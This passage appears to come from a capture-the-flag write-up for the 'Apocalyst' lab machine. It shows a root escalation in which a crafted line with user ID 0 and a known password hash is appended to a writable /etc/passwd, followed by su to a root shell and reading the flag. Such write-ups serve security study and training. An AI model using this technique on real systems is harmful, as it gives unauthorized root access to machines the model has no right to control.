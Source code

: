 The format of a line in the `passwd` file is:

```

[user]:[hash including $[type]$[salt]$[hash]]:[userid]:[groupid]:[comment]:[homedir]:[shell]

```

So I’ll use that to generate a line for a new user with user and group id 0 (root):

```

0xdf:$1$ZdNgkXMh$IACjDuFtgYshwpcoQhQjB/:0:0:0xdf:/root:/bin/bash

```

I’ll add that line to the end of the `passwd` file:

```

www-data@apocalyst:/etc$ echo 'oxdf:$1$ZdNgkXMh$IACjDuFtgYshwpcoQhQjB/:0:0:0xdf:/root:/bin/bash' >> passwd

```

Now `su oxdf` will prompt for that user’s password, which I just set to “0xdf”:

```

www-data@apocalyst:/etc$ su oxdf
Password: 
root@apocalyst:/etc#

```

Because the oxdf user has userid 0, it is root.

I can grab the flag:

```

root@apocalyst:~# cat root.txt
1cb9d00f************************

```